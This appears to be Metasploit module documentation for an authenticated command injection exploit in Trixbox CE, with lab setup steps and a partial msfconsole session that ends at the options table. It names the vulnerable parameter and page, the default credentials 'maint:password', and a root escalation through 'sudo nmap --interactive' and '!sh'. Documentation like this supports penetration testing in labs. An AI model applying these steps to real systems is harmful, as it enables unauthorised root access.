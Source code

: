 ## Vulnerable Application

### Description

  This module exploits an authenticated OS command injection
  vulnerability found in Trixbox CE version 1.2.0 to 2.8.0.4
  inclusive in the "network" POST parameter of the
  "/maint/modules/endpointcfg/endpoint_devicemap.php" page.
  Successful exploitation allows for arbitrary command execution
  on the underlying operating system as the "asterisk" user.
  Users can easily elevate their privileges to the "root" user
  however by executing "sudo nmap --interactive" followed by "!sh"
  from within nmap.

### Installation And Setup

  1. Download the latest version of Trixbox CE (i.e. [v2.8.0.4 ISO](https://netcologne.dl.sourceforge.net/project/asteriskathome/trixbox%20CE/trixbox%202.8/trixbox-2.8.0.4.iso)).
  2. Set up a new CentOS machine in VirtualBox or VMWare and load the ISO. 
  Be sure to disable any autosetup features of VMWare or VirtualBox. 
  Follow the install prompts and note the `root` password you choose to use. 
  Once `Package Installation` appears on the screen, wait for the system 
  to finish rebooting several times, after which the following screen 
  should be displayed:
  ```
  CentOS release 4.3 (Final)
  Kernel 2.6.9-34.EL on an i686

  asterisk1 login:
  ```
  3. Log into via the terminal using the username `root` and the password 
  you set for the `root` user during installation.
  4. A prompt similar to the following should be displayed:
  ```
  For access to the trixbox web GUI use this URL: http://192.168.205.144
  ```
  5. Once this prompt is displayed, take the IP address and browse 
  to the URL http://*IP ADDRESS*/maint/, then log in with the default 
  administrative credentials (`maint`:`password`).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Trixbox CE v2.8.0.4
```
msf5 > use exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set rhosts 192.168.1.8
rhosts => 192.168.1.8
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > show options

Module options (exploit/unix/webapp/trixbox_ce_endpoint_devicemap_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  password         yes       Password to login with
   HttpUsername  maint            yes       User to login with
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.1.8      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```
